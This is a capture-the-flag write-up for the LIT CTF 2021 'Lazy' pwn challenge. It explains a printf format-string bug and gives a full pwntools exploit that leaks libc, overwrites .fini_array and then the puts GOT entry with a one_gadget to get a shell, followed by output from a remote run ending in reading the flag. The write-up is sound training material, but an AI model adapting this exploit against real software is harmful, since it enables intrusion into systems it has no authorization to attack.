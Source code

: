 # Lexington Informatics Tournament CTF 2021

## pwn/Lazy

> Rythm 
> 
> Perhaps printf can do more than just read from the stack. I was too lazy to find out though. There’s not even a reference to the flag anyway. Do you think you GOT this?
> 
> `nc lazy.litctf.live 1337`
>
> [lazy_pwn.zip](lazy_pwn.zip)


Tags: _pwn_ _x86-64_ _fini-array_ _dtors_ _format-string_ _got-overwrite_ _one-gadget_

## Summary

Format-string overwrite of `.fini_array` to get a second pass to then overwrite the GOT with a gadget.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No RELRO? It is always _fini\_array_ (a.k.a. _dtors_)


### Decompile with Ghidra

```c
undefined8 main(void)
{
  ssize_t sVar1;
  undefined4 local_208 [128];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Do you have any complaints about this lazily written problem?");
  sVar1 = read(0,local_208,0x79);
  local_208[(int)sVar1] = 0;
  puts("You said:");
  printf((char *)local_208);
  puts("Your criticism will be taken into consideration.");
  return 0;
}
```

`printf((char *)local_208)` is the vulnerability (no format-string).

Simple two-pass attack.  First, leak libc and overwrite `.fini_array` with `main` for a second pass, then overwrite `puts` with a _one\_gadget_.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./lazy')

if args.REMOTE:
    p = remote('lazy.lit-ctf-2021-2-codelab.kctf.cloud', 1337)
    libc = ELF('./libc-2.31.so')
    libc_start_main_offset = 234
    libc.symbols['gadget'] = [0xcbd1a,0xcbd1d,0xcbd20][1]
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    libc_start_main_offset = 243
    libc.symbols['gadget'] = [0xe6c7e,0xe6c81,0xe6c84][1]
```

Standard pwntools header with some gadgets (google for _one\_gadget_) defined (locally and remotely the 2nd gadget worked).


```python
offset = 6
libcleak_offset = 71
```

Discovered offsets using `%xx$p` and GDB locally.

> If new to format-string exploits read [dead-canary](https://github.com/datajerk/ctf-write-ups/tree/master/redpwnctf2020/dead-canary).

```python
payload  = b''
payload += b'%' + str(libcleak_offset).encode().rjust(2,b'0') + b'$018p'
payload += fmtstr_payload(offset+1,{binary.get_section_by_name('.fini_array').header.sh_addr:binary.sym.main},numbwritten=18)

log.info('len(payload): ' + str(len(payload)))
assert(len(payload) <= 0x79)
p.sendlineafter('problem?\n',payload)

p.recvline()
_ = p.recv(18)
libc.address = int(_,16) - libc.sym.__libc_start_main - libc_start_main_offset
log.info('libc.address: ' + hex(libc.address))
```

First pass, just leak and compute libc, then set `.fini_array` to `main` and on exit we score a second pass.

```python
payload = fmtstr_payload(offset,{binary.got.puts:libc.sym.gadget})
log.info('len(payload): ' + str(len(payload)))
assert(len(payload) <= 0x79)
p.sendlineafter('problem?\n',payload)

null = payload.find(b'\x00')
p.recvuntil(payload[null-2:null])
p.interactive()
```

On second pass just replace `puts` in the GOT with our gadget; the `puts` after `printf` just before `return 0` will start a shell.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/litctf2021/lazy_pwn/lazy'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to lazy.lit-ctf-2021-2-codelab.kctf.cloud on port 1337: Done
[*] '/pwd/datajerk/litctf2021/lazy_pwn/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] len(payload): 72
[*] libc.address: 0x7f6b766aa000
[*] len(payload): 112
[*] Switching to interactive mode
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ ls -l
total 2000
-rw-r--r-- 1 nobody nogroup      39 Jul  2 06:05 flag.txt
-rwxr-xr-x 1 nobody nogroup   17592 Jul 16 12:25 lazy
-rwxr-xr-x 1 nobody nogroup  177928 Jul  1 17:34 ld-2.31.so
-rwxr-xr-x 1 nobody nogroup 1839792 Jul  1 17:34 libc-2.31.so
$ cat flag.txt
flag{1t_41nt_much_but_1ts_h0n3st_w0rk}
```
